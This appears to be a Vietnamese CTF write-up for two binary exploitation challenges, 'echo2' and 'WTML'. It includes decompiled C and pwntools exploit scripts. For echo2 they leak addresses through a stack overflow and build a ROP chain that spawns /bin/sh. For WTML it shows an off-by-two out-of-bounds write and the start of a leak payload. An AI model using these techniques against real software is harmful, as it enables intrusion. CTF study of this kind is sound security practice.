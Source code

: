 # echo2

## IDA

```c
int echo()
{
  char ptr[264]; // [rsp+0h] [rbp-110h] BYREF
  int v2[2]; // [rsp+108h] [rbp-8h] BYREF

  puts("Welcome to Echo2");
  v2[1] = __isoc99_scanf("%d", v2);
  fread(ptr, 1uLL, v2[0], stdin);
  return printf("Echo2: %s\n", ptr);
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stderr, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  echo();
  puts("Goodbye from Echo2");
  return 0;
}
```

## Ý tưởng

- mảng v2[] được khai báo int (4byte)
- `  v2[1] = __isoc99_scanf("%d", v2);` dòng này hơi lạ, em tìm trên gpt thì em hiểu:
- hàm scanf() trả về số lượng phần tử đã được gán giá trị thành công. (ở đây là 1 (do nhập vào là số))
- và ta ghi giá trị vào v2 là con trỏ, là ta đang ghi vào v2[0]
- Như vậy, ta có thể ow được rip để điều khiển
- Do hàm này không có hàm tạo shell nên có thể là ret2libc, ta cần leak được libc, nhưng do địa chỉ động nên ta cần leak địa chỉ exe, để có got

## Thực thi

### Leak exe

- Ta sẽ ow rbp để khi %s nó sẽ luôn địa chỉ ret của echo

```python
    payload = b'a'*279
    r.sendlineafter(b'Echo2\n', b"280")
    r.send(payload)
```

- Nó sẽ leak cho ta ret của echo nhưng như vậy chưa đủ vì leak xong chương trình kết thúc
- Ta kiểm tra địa chỉ của ret echo là `0x00558efb2072b3` và main là `0x558efb207247`
- 2 địa chỉ khá giống nhau nên ta chỉ cần ghi thêm 1 byte để ghi đè ret echo thành main để khi kết thúc nó sẽ chạy lại chương trình
- Do nhảy vào đầu main có lỗi xmm1 nên ta sẽ nhảy vào main + 5 là cần ghi đè thành byte 0x4c ("L")
- Nên sửa lại payload một xíu, và tính toán exe base

```python
    payload = b'a'*279 + b"L"
    r.sendlineafter(b'Echo2\n', b"281")
    r.send(payload)

    r.recvuntil(b'a'*279)
    exe_leak = u64(r.recvline(keepends=False) + b'\0\0')
    exe.address = exe_leak - 4684
    log.info("leak exe: " + hex(exe_leak))
    log.info("base exe: " + hex(exe.address))
```

### Leak libc

- chỗ này em thắc mắc tại sao phải đưa ret vào =(( (em co script của a)

```python
    ret = exe.address + 0x000000000000101a
    payload = b'b'*279
    payload += p64(ret) + p64(exe.plt['printf'])
    payload += p64(ret) + p64(exe.sym['echo'])
    r.sendlineafter(b'Echo2\n', str((len(payload) + 1)))
    r.send(payload)

    r.recvlines(2)
    leak_libc = u64(r.recvuntil(b'Welcome', drop=True) + b"\0\0")
    libc.address = leak_libc - 401616
    log.info("leak libc: " + hex(leak_libc))
    log.info("leak libc: " + hex(libc.address))
```

### rop

- Đến đây ta có thể dùng one_gadget, tuy nhiên khi sử dụng one_gadget mặc dù đã thoả các điều kiện rồi nhưng vẫn lỗi, buộc ta phải rop bằng tay =)))
- Dùng ROPgadget trong file exe không có các pop nên ta sẽ sử dụng ROPgadget lên file libc vì nó có đầy đủ
- Ta cần pop các thanh ghi sau

```
    rsi = libc.address + 0x000000000002be51
    rdi = libc.address + 0x000000000002a3e5
    rax_rdx_rbx = libc.address + 0x0000000000090528
    syscall = libc.address + 0x0000000000029db4
```

- Cuối cùng tạo shell ta tạo shell thui

```python
    payload = b'a'*279
    payload += flat(
        rsi, 0,
        rdi, next(libc.search(b"/bin/sh")),
        rax_rdx_rbx, 0x3b, 0x0, 0x0,
        syscall
    )
    r.sendlineafter(b'Echo2\n', str((len(payload) + 1)))
    r.send(payload)
```

# WTML

- Bài này khá là khó, ta có thể phát hiện lỗi bof ở đây

```c
    for (size_t i = start_tag_index + 3; i < MESSAGE_LEN; i++) {
        if (message[i] == '<' && message[i + 1] == '/' && message[i + 2] == from) {
            size_t end_tag_index = i;
            message[start_tag_index + 1] = to;
            message[end_tag_index + 2] = to;
            return;
        }
    }
```

- `MESSAGE_LEN` có giá trị là 32, `message[]` là mảng ta nhập vào, và `to` là lần nhập thứ 3, ta thấy nếu `i = MESSAGE_LEN = 31` thì

```c
            message[start_tag_index + 1] = to;
            message[end_tag_index + 2] = to;
        //  message[32] = to
        //  message[33] = to
        //  trong khi message[32]
```

- Và chỗ này, hàm replace_1 được gọi

![image](https://user-images.githubusercontent.com/111769169/229436486-893c4aec-5551-4609-8021-b29b23ece187.png)

- Trong hàm replace_1 ta chương trình hoạt động như sau
- Nó sẽ kiểm tra 3 kí tự đầu của chuỗi mình nhập vào, đặc biệt là kí tự thứ 2 sẽ phải giống với lần nhập thứ 2 (from)

```c
    size_t start_tag_index = -1;
    for (size_t i = 0; i < MESSAGE_LEN - 2; i++) {
        if (message[i] == '<' && message[i + 1] == from && message[i + 2] == '>') {
            start_tag_index = i;
            break;
        }
    }
```

```c
    if (start_tag_index == -1) return; // kiểm tra
```

- Đây là bước quan trọng
- Nó sẽ thay đổi 2 kí tự, và thoát chương trình luôn, và như ở phân tích trên, ta có thể lợi dụng chỗ này để ghi đè được vì nó có thể truy cập phần tử ngoài mảng
- Ở đây ta sẽ cho payload không thoả điều kiện hàm if để khi `i = 30` khi này `i + 1 = 31, i + 2 = 32 (phần tử ngoài mảng)` có thể ghi đè byte byte 0x00 ( để puts() leak đượ
  ![image](https://user-images.githubusercontent.com/111769169/229440451-88d9f863-b3a4-4ae9-abd0-d697293daa6d.png)

- Tại i = 30 payload của chúng ta cần phải `<`, i + 1 = 31 sẽ là `/`, i + 2 = 32 payload sẽ là `0x00` vì giá trị `message[32] = 0x00` chính là byte 0x00 ở hình trên

```c
    for (size_t i = start_tag_index + 3; i < MESSAGE_LEN; i++) {
        if (message[i] == '<' && message[i + 1] == '/' && message[i + 2] == from) {
            size_t end_tag_index = i;
            message[start_tag_index + 1] = to;
            message[end_tag_index + 2] = to;
            return;
        }
    }
```

- Tóm lại lần nhập thứ hai ta sẽ nhập 0x00

```python
    payload = b"<\0>"           # mục đích là chạy được vòng for đầu tiên của replace 1
    payload = payload.ljust(30) # không cho chạy vào if
    payload += b"</"            # thoả if để ghi đè để leak

    r.sendafter(b" WTML!\n", payload)
    r.sendlineafter(b" quit]?\n",  b'\0')
    r.sendlineafter(b"tag?\n", b'\1')   # ghi đè 0x1 vào byte 0x0 ảnh trên
```

